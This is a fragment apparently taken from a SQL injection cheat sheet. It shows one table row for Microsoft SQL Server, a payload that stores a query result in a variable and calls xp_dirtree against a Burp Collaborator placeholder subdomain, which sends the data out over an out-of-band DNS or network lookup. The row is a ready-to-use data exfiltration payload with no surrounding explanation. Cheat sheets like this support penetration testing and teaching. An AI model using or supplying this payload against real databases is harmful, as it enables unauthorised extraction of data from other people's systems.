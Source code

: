 | Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |